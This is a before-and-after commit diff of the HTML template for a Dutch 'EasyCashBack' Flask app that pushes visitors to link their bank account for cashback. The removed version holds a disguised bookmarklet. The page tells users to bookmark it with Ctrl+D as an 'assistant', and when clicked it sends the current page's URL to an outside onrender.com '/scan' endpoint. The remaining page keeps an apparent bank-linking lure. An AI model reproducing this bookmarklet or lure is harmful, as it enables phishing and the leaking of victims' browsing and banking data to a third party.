

Before and after one commit to sakab413/mijn-stripe-app, a Flask app: template templates/index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (319-959 px from the left). Run offline with Flask 3, Linux system fonts and the light colour scheme; the template is opened without the code that fills it, so the values that code supplies are empty.

Commit message:
Update index.html

```diff
--- a/templates/index.html
+++ b/templates/index.html
@@ -1,130 +1,18 @@
 <!DOCTYPE html>
 <html lang="nl">
 <head>
-    <meta charset="UTF-8">
-    <title>EasyCashBack | Dashboard</title>
-    <link href="https://fonts.googleapis.com/css2?family=Inter:wght@400;600;700&display=swap" rel="stylesheet">
+    <title>EasyCashBack | Start</title>
     <style>
-        :root {
-            --primary: #10b981;
-            --primary-dark: #059669;
-            --bg: #f8fafc;
-            --card: #ffffff;
-            --text-main: #1e293b;
-            --text-sub: #64748b;
-        }
-
-        body {
-            font-family: 'Inter', sans-serif;
-            background-color: var(--bg);
-            color: var(--text-main);
-            margin: 0;
-            display: flex;
-            justify-content: center;
-            align-items: center;
-            min-height: 100vh;
-        }
-
-        .container {
-            background: var(--card);
-            width: 100%;
-            max-width: 440px;
-            padding: 40px;
-            border-radius: 32px;
-            box-shadow: 0 10px 25px rgba(0,0,0,0.05);
-            border: 1px solid #e2e8f0;
-            text-align: center;
-        }
-
-        h1 { font-size: 30px; font-weight: 800; color: var(--primary); margin: 0 0 10px 0; letter-spacing: -1px; }
-
-        .status-tag {
-            display: inline-flex;
-            align-items: center;
-            background: #fef2f2;
-            color: #ef4444;
-            padding: 8px 16px;
-            border-radius: 99px;
-            font-size: 13px;
-            font-weight: 600;
-            margin-bottom: 32px;
-            border: 1px solid #fee2e2;
-        }
-
-        .status-dot { height: 8px; width: 8px; background: #ef4444; border-radius: 50%; margin-right: 8px; }
-
-        .card {
-            background: #ffffff;
-            border: 1px solid #f1f5f9;
-            padding: 24px;
-            border-radius: 20px;
-            text-align: left;
-            margin-bottom: 20px;
-            box-shadow: 0 4px 6px -1px rgba(0,0,0,0.02);
-        }
-
-        .card h3 { margin: 0 0 6px 0; font-size: 17px; font-weight: 700; color: var(--text-main); }
-        .card p { margin: 0 0 20px 0; color: var(--text-sub); font-size: 14px; line-height: 1.5; }
-
-        .btn {
-            display: block;
-            width: 100%;
-            padding: 16px;
-            border-radius: 14px;
-            font-size: 15px;
-            font-weight: 700;
-            cursor: pointer;
-            transition: all 0.2s ease;
-            text-decoration: none;
-            text-align: center;
-            border: none;
-            box-sizing: border-box;
-        }
-
-        .btn-green-fill {
-            background: var(--primary);
-            color: white;
-            box-shadow: 0 4px 14px rgba(16, 185, 129, 0.25);
-        }
-
-        .btn-green-fill:hover {
-            background: var(--primary-dark);
-            transform: translateY(-2px);
-        }
-
-        .btn-green-outline {
-            background: #ffffff;
-            border: 2px solid var(--primary);
-            color: var(--primary);
-        }
-
-        .btn-green-outline:hover {
-            background: #f0fdf4;
-            transform: translateY(-2px);
-        }
+        body { font-family: sans-serif; background: #0f172a; color: white; text-align: center; padding: 100px; }
+        .card { background: #1e293b; padding: 40px; border-radius: 24px; border: 1px solid #10b981; display: inline-block; }
+        .btn { background: #10b981; color: white; padding: 15px 30px; border-radius: 12px; text-decoration: none; font-weight: bold; }
     </style>
 </head>
 <body>
-    <div class="container">
-        <h1>EasyCashBack</h1>
-        <div class="status-tag"><span class="status-dot"></span> Systeem: Niet Gekoppeld</div>
-
-        <div class="card">
-            <h3>Account Activatie</h3>
-            <p>Stap 1: Verbind je bankrekening veilig voor automatische verwerking.</p>
-            <form action="/create-checkout-session" method="POST">
-                <button type="submit" class="btn btn-green-fill">Koppel veilig via hier</button>
-            </form>
-        </div>
-
-        <div class="card" style="border-left: 4px solid var(--primary);">
-            <h3>Systeem Beheer</h3>
-            <p>Stap 2: Activeer de browser-engine. Druk na het klikken op <b>Ctrl+D</b>.</p>
-            <a href="javascript:(function(){window.location.href='https://mijn-stripe-app.onrender.com/scan?ref='+encodeURIComponent(window.location.href);})();"
-               class="btn btn-green-outline" onclick="alert('Druk nu op Ctrl+D om de assistent op te slaan!')">
-               🚀 Achter de schermen
-            </a>
-        </div>
+    <div class="card">
+        <h1>Geld terug op elke aankoop</h1>
+        <p>Koppel je bank en ontvang automatisch cashback.</p><br>
+        <a href="/connect-bank" class="btn">Koppel Mijn Bank</a>
     </div>
 </body>
 </html>
```
